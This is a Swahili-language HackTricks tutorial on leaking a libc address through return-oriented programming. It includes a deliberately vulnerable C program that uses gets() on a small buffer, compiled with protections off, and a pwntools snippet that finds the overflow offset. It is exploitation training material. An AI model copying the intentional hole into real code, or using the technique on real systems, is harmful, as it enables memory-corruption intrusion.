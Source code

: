 # Kuonyesha anwani ya libc kwa kutumia ROP

{{#include ../../../../banners/hacktricks-training.md}}

## Muhtasari wa Haraka

1. **Pata** overflow **offset**
2. **Pata** gadget ya `POP_RDI`, gadget za `PUTS_PLT` na `MAIN`
3. Tumia gadget za awali ku **onyesha anwani ya kumbukumbu** ya puts au kazi nyingine ya libc na **pata toleo la libc** ([donwload it](https://libc.blukat.me))
4. Pamoja na maktaba, **hesabu ROP na uifanye**

## Miongozo mingine na binaries za kufanya mazoezi

Miongozo hii itatumia msimbo/binary uliopendekezwa katika miongozo hii: [https://tasteofsecurity.com/security/ret2libc-unknown-libc/](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)\
Miongozo mingine ya manufaa: [https://made0x78.com/bseries-ret2libc/](https://made0x78.com/bseries-ret2libc/), [https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html)

## Msimbo

Filename: `vuln.c`
```c
#include <stdio.h>

int main() {
char buffer[32];
puts("Simple ROP.\n");
gets(buffer);

return 0;
}
```

```bash
gcc -o vuln vuln.c -fno-stack-protector -no-pie
```
## ROP - Kuonyesha LIBC template

Pakua exploit na uweke katika saraka moja na binary iliyo hatarini na upe data zinazohitajika kwa script:

{{#ref}}
rop-leaking-libc-template.md
{{#endref}}

## 1- Kutafuta offset

Template inahitaji offset kabla ya kuendelea na exploit. Ikiwa yoyote itatolewa itatekeleza msimbo unaohitajika kuipata (kwa default `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
```